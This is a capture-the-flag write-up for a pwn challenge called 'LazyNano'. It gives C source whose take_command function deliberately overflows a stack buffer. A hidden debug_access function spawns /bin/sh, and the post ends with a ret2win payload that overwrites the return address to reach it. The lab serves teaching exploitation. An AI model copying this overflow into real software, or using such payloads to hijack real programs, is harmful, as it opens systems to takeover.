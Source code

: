 ```yaml
---
layout: post
title: LazyNano
date: 06/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
description: ret2win
---
```



```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

void menu() {
    puts("      __                                                                     ");
    puts("     /\\ \\                                                                  ");
    puts("    /  \\ \\      .--------------------------------------------------------. ");
    puts("   / /\\ \\ \\     |░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀█░|");
    puts("  / / /\\ \\ \\    |░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░░█░|");
    puts(" / / /__\\_\\ \\   |░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀|");
    puts("/ / /________\\  '--------------------------------------------------------'  ");
    puts("\\/___________/                                                              ");
}

void debug_access(void) {
    puts("Accès à l'interface de debogage...");

    __asm__(
        ".intel_syntax noprefix;"
        "push 0x0;"
        ".att_syntax;"
    );
    
    system("/bin/sh");
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la base martienne Fermat\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
> In this challenge the source code was given


We can some function called `debug_access`, it's a ret2win challenge. 

In a ret2win challenge you just have to find the offset to crush the EIP/RIP and return the function address.
> offset + return adress

```bash
gorfou-en-danger-1 readelf -s ./chall| grep "debug"
    42: 00000000004004fd    29 FUNC    GLOBAL DEFAULT    4 debug_access
```
so we just have to put the address in little endian 
debug adress in little endian : `\xfd\x04@\x00\x00\x00\x00\x00`
solution : 
```bash
(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xfd\x04@\x00\x00\x00\x00\x00";cat) | ./chall
```

